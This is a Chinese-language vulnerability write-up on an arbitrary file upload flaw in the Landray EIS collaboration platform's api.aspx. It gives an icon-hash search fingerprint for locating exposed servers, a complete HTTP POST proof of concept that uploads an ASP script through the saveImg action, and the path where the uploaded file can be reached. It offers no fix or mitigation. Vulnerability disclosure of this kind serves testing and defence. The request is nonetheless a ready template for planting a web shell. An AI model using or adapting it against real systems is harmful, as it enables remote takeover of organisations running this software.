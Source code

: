 # 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

# 蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞

## 漏洞描述

蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

蓝凌EIS 智慧协同平台

## 网络测绘

```
icon_hash="953405444"
```

## 漏洞复现

登陆页面

![image-20231116141557650](images/image-20231116141557650.png)

poc

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html

<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--
```

![image-20231116141617020](images/image-20231116141617020.png)

```
/files/editor_img/xxx/xxx.asp
```


